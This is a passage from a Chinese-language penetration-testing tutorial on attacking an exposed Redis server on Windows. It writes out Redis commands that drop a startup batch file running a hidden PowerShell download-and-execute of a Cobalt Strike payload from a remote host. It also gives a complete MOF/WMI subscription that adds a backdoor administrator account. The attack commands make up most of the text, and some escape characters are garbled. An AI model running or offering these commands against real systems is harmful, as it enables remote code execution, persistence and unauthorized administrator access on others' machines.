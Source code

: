 **2、写入启动项**

```bash
#由于Start Menu之间有空格，因此需要用双引号将路径包含
192.168.1.9:6379>config set dir "C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/"
OK
192.168.1.9:6379>config set dbfilename shell.bat
OK
192.168.1.9:6379>set x “rnrnpowershell.exe -nop -w hidden -c ”IEX ((new-object net.webclient).downloadstring(‘http://192.168.1.105:80/a’))”rnrn”#这是CS用团队服务器生成的马
OK
192.168.1.9:6379> save
OK
```

**3、写入MOF（2003-r2实验未成功）**

由于不能重启机器也无法获取web目录，想到Mof提权，环境限制只能为**win2003** 

>  mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做 ”托管对象格式” 
>
>  其作用是每隔五秒就会去监控进程创建和死亡。
>
>  就是用了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。
>
>  隔了一定时间以后这个mof就会被执行，这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。 

也就是说在`c:/windows/system32/wbem/mof/`目录下的mof文件会每5秒自动执行一次，这样就不需要重启机器就能获取权限了。 

**保存mof.txt文件，内容如下**

```bash
#pragma namespace("\\.\root\subscription")
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\Cimv2";
Name = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa "Win32_LocalTime" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject("WScript.Shell")nWSH.run("net.exe user wintrysec admin666 /add")";
};
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```

